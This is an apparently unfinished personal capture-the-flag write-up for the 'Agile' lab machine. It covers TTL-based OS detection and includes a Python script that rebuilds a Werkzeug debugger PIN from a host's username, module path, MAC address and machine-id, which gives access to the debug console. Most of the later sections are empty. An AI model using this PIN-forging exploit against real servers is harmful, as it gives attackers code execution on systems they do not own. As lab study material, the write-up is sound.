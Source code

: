 # Agile Writeup

Name: Agile
Date:  
Difficulty:  
Goals:  
- Overcome the Weukzeug experience hurdle
- Improve my notes
Learnt:
Beyond Root:
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
- [https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting](https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting) 
- And anything else

- [[Agile-Notes.md]]
- [[Agile-CMD-by-CMDs.md]]

Spoilers for AoC 2023 from THM one of the machine contains a similar exploit for this box that I was spoiled by: [[Advent-Of-Cyber-2023-Side-Quest-Helped-Through]]
## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)
	
## Exploit

[[Advent-Of-Cyber-2023-Side-Quest-Helped-Through]] mentioned [https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting](https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting) this exploit configure it:
```python
import hashlib
from itertools import chain
probably_public_bits = [
    'mcskidy',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2818051077195',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'aee6189caee449718070b58132f2e4ba'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

## Foothold

## Privilege Escalation

## Post-Root-Reflection  

## Beyond Root



